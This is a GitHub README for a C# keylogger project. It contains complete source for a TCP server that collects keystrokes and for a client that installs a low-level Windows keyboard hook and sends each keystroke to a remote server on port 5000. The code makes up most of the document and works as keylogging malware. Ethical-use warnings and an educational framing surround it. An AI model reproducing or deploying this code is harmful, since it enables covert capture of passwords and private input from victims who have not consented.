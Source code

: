 # 🥷🏻 Keylogger in Csharp
This project consists of two parts: KeyloggerServer and KeyloggerClient. The KeyloggerServer listens for key logs sent from the KeyloggerClient and prints them to the console. The KeyloggerClient captures keystrokes on the host machine and sends them to the server.
### Introduction
The KeyloggerServer and KeyloggerClient projects demonstrate a simple implementation of a keylogger and a corresponding server to capture keystrokes remotely. This setup is intended for educational purposes to understand the mechanics of keylogging and network communication in C#.

## Warning: Unauthorized use of keyloggers to capture keystrokes from systems without consent is illegal and unethical. This project should only be used in environments where you have explicit permission to do so, such as your own devices for educational or testing purposes.

## Project Structure
### KeyloggerProject

```
│
├─── KeyloggerServer
│    ├── Program.cs
│    ├── .vscode
│    │   ├── launch.json
│    │   ├── tasks.json
│    ├── KeyloggerServer.csproj
│
└─── KeyloggerClient
     ├── Program.cs
     ├── Keylogger.cs
     ├── .vscode
     │   ├── launch.json
     │   ├── tasks.json
     ├── KeyloggerClient.csproj
```
## Getting Started
### Prerequisites
- .NET SDK (version 6.0 or higher)
- Visual Studio Code with the C# extension installed

## Technical Details
### KeyloggerServer
The server is a simple TCP listener that waits for incoming connections on port 5000. When a connection is received, it reads the data, interprets it as a keystroke, and prints it to the console.

### Program.cs:
```csharp
using System;
using System.Net;
using System.Net.Sockets;
using System.Text;

class Server
{
    static void Main()
    {
        TcpListener server = new TcpListener(IPAddress.Any, 5000);
        server.Start();
        Console.WriteLine("Server started...");

        while (true)
        {
            TcpClient client = server.AcceptTcpClient();
            NetworkStream stream = client.GetStream();

            byte[] buffer = new byte[1024];
            int bytesRead = stream.Read(buffer, 0, buffer.Length);
            string message = Encoding.ASCII.GetString(buffer, 0, bytesRead);
            Console.WriteLine("Received: " + message);

            client.Close();
        }
    }
}
```
### KeyloggerClient
The client sets a low-level keyboard hook to capture all keystrokes. Captured keystrokes are sent to the server over a TCP connection.

### Program.cs:
```csharp
using System;
using System.Windows.Forms;

namespace KeyloggerClient
{
    static class Program
    {
        [STAThread]
        static void Main()
        {
            Application.EnableVisualStyles();
            Application.SetCompatibleTextRenderingDefault(false);
            Keylogger.Start();
            Application.Run();
        }
    }
}
```
### Keylogger.cs:
```csharp
using System;
using System.Diagnostics;
using System.Net.Sockets;
using System.Runtime.InteropServices;
using System.Windows.Forms;

namespace KeyloggerClient
{
    static class Keylogger
    {
        private const int WH_KEYBOARD_LL = 13;
        private const int WM_KEYDOWN = 0x0100;
        private static LowLevelKeyboardProc _proc = HookCallback;
        private static IntPtr _hookID = IntPtr.Zero;

        public static void Start()
        {
            _hookID = SetHook(_proc);
            Application.ApplicationExit += (sender, e) => UnhookWindowsHookEx(_hookID);
        }

        private static IntPtr SetHook(LowLevelKeyboardProc proc)
        {
            using (Process curProcess = Process.GetCurrentProcess())
            using (ProcessModule curModule = curProcess.MainModule)
            {
                return SetWindowsHookEx(WH_KEYBOARD_LL, proc, GetModuleHandle(curModule.ModuleName), 0);
            }
        }

        private delegate IntPtr LowLevelKeyboardProc(int nCode, IntPtr wParam, IntPtr lParam);

        private static IntPtr HookCallback(int nCode, IntPtr wParam, IntPtr lParam)
        {
            if (nCode >= 0 && wParam == (IntPtr)WM_KEYDOWN)
            {
                int vkCode = Marshal.ReadInt32(lParam);
                string key = ((Keys)vkCode).ToString();
                SendKeyToServer(key);
            }
            return CallNextHookEx(_hookID, nCode, wParam, lParam);
        }

        private static void SendKeyToServer(string key)
        {
            try
            {
                using (TcpClient client = new TcpClient("server-ip-address", 5000)) // Use the server's IP address
                using (NetworkStream stream = client.GetStream())
                {
                    byte[] data = System.Text.Encoding.ASCII.GetBytes(key);
                    stream.Write(data, 0, data.Length);
                }
            }
            catch (Exception ex)
            {
                Console.WriteLine("Exception: " + ex.Message);
            }
        }

        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private static extern IntPtr SetWindowsHookEx(int idHook, LowLevelKeyboardProc lpfn, IntPtr hMod, uint dwThreadId);

        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        [return: MarshalAs(UnmanagedType.Bool)]
        private static extern bool UnhookWindowsHookEx(IntPtr hhk);

        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private static extern IntPtr CallNextHookEx(IntPtr hhk, int nCode, IntPtr wParam, IntPtr lParam);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private static extern IntPtr GetModuleHandle(string lpModuleName);
    }
}
```
### Security Considerations
- Ethical Use: Ensure you have explicit permission to use keylogging software on any device. Unauthorized use is illegal and unethical.
- Data Privacy: Keylogging software can capture sensitive information. Handle all captured data securely and ensure it is protected from unauthorized access.
- Network Security: Use secure communication channels if deploying over the internet to avoid interception of keystrokes. 
